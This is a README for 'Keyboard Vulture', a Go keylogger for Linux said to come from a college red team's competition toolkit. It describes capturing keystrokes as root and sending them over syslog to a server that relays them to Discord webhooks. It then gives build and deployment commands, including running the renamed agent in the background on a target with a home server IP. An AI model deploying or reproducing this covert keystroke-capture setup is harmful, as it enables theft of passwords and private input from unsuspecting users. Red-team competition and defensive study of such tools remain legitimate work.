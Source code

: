 # Keyboard-Vulture
<p align="center">
  <img src="https://cdn.mos.cms.futurecdn.net/ywDAmc9ikSaceqm7taFSuP.jpg" />
</p>

## What is this tool?
Keyboard Vulture is a basic Linux keylogger written in Go. When run as root, it captures keyboard input and sends it to a server over SYSLOG. The server then posts the keystrokes to Discord using webhooks. 

## Why does this tool exist?
This tool is a part of the [Sinister Scripts](https://github.com/nos3curity/Sinister-Scripts) suite of homegrown APT tools developed by the [Cal Poly Pomona SWIFT](https://www.calpolyswift.org/) club Red Team for the Red vs. Blue competition. Keyboard Vulture is only made for this single purpose and if you plan on using it for something actually malicious, maybe reconsider your life choices.

## How do you set up the server?
First, create a channel for every team in your Discord server and restrict access to them to just Red Team. Go to each channel's settings and create webhook URL's.

Second, create the `./Server/.teams` file with Discord webhooks for every team's channel with the following syntax:
```
TEAM1=https://discord.com/api/webhooks/...
TEAM2=https://discord.com/api/webhooks/...
TEAM3=https://discord.com/api/webhooks/...
TEAM4=https://discord.com/api/webhooks/...
```

Lastly, either use a prebuilt binary from the latest release or build it from source as such:
```
cd Server && go build
```

You can now start the server as such or add the optional command line flags from `./Server -h`:
```
./Server
```

## How do you set up the agent?
First, either grab a prebuilt binary or build it from source as such:
```
cd Agent && go build
```

Once you transfer the binary to the target system, ensure you are running it as root like the following (make sure to rename the file for OPSEC):
```
chmod +x Agent
./Agent -s 192.168.10.10 -p 80 -t 1 &
```
- `-s` specifies the IP of the Vulture server
- `-p` specifies the port of the Vulture server
- `-t` specifies the team number for the webhook
- ` &` sets the process to the background

That's it. You should now be all set. Keystrokes get sent home when ENTER is pressed on the keyboard.